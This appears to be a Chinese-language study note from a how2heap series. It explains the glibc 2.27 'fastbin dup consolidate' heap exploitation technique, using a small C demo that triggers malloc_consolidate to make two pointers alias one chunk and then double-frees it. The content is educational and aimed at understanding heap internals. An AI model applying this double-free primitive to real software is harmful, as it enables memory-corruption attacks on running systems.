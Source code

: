```yaml
---
title: fastbin dup consolidate
description: 
published: true
date: 2022-10-04T13:20:34.937Z
tags: pwn, 堆利用
editor: markdown
dateCreated: 2022-10-04T13:18:36.274Z
---
```


# 源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

void main() {
	// reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8
	puts("This is a powerful technique that bypasses the double free check in tcachebin.");
	printf("Fill up the tcache list to force the fastbin usage...\n");

	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	void* p1 = calloc(1,0x40);

  printf("Allocate another chunk of the same size p1=%p \n", p1);
  printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
  free(p1);

  void* p3 = malloc(0x400);
	printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
	printf("will trigger the malloc_consolidate and merge\n");
	printf("the fastbin chunks into the top chunk, thus\n");
	printf("p1 and p3 are now pointing to the same chunk !\n\n");

	assert(p1 == p3);

  printf("Triggering the double free vulnerability!\n\n");
	free(p1);

	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("The double free added the chunk referenced by p1 \n");
	printf("to the tcache thus the next similar-size malloc will\n");
	printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
}
```

# 解析
## 填充tcache
源码中10到15行如下所示
```c
void *ptr[7];

for(int i = 0; i < 7; i++)
  ptr[i] = malloc(0x40);
for(int i = 0; i < 7; i++)
  free(ptr[i]);
```
正如源码中第8行所说的，上面的代码主要是为了填充tcache，从而快速使用fastbin。

## fastbin中放入chunk
源码17到21行如下所示
```c
void* p1 = calloc(1,0x40);

printf("Allocate another chunk of the same size p1=%p \n", p1);
printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
free(p1);
```
这里利用`calloc()`申请一个相同大小但非tcache中的chunk，然后将它释放，从而成功将其放入fastbin中。

## 触发malloc consolidate
源码23至27行如下所示
```c
void* p3 = malloc(0x400);
printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
printf("will trigger the malloc_consolidate and merge\n");
printf("the fastbin chunks into the top chunk, thus\n");
printf("p1 and p3 are now pointing to the same chunk !\n\n");
```
申请一个0x400的堆块，并将用户指针赋给p3。这里源码中的`tcache-sized chunk`没有理解作者的意思，我的理解是申请一个large bin大小的chunk从而触发`malloc consolidate`。这时`p1`和`p3`会指向相同的chunk，咋一看很神奇，我们来调试一下。

在23行下断点，查看fastbin和堆块，如下图所示：

![h2p_2.27_fbdupconsolidate1.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate1.png){.align-center}
![h2p_2.27_fbdupconsolidate2.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate2.png){.align-center}

可以看到当23行执行之前，之前释放的`p1`被放入了fastbin中，接下来步过一次，看看23执行后有什么变化，如下图所示：

![h2p_2.27_fbdupconsolidate3.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate3.png){.align-center}

可以看到fastbin中没有chunk，而且原本地址上的chunk的Size从0x51变为了0x411。这是因为当我们执行`malloc(0x400)`时触发了`malloc consolidate`，fastbin会被清空，原本被释放的`p1`与top chunk合并，然后再从top chunk分割出一个用户空间为0x400大小的chunk，这一过程中堆块的地址不会发生变化，所以`p1`和`p3`就会指向同一个堆块。

## 触发double free
源码31到40行如下所示：
```c
printf("Triggering the double free vulnerability!\n\n");
free(p1);

void *p4 = malloc(0x400);

assert(p4 == p3);

printf("The double free added the chunk referenced by p1 \n");
printf("to the tcache thus the next similar-size malloc will\n");
printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
```
这时我们可以再次释放`p1`，虽然释放的是`p1`，但是实际上释放的是之前分配的`p3`，如果当我们再次申请相同大小的chunk时，被释放的`p3`再次被调用，chunk地址被赋给了`p4`，这时`p3`和`p4`也指向相同的chunk。

## 运行结果
![h2p_2.27_fbdupconsolidate4.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate4.png)

# 总结
申请large bin大小的chunk触发`malloc consolidate`，使fastbin中的chunk的指针与新申请的chunk的指针指向同一chunk，然后就可以二次释放fastbin中的chunk，紧接着也可以再次申请已分配的chunk。
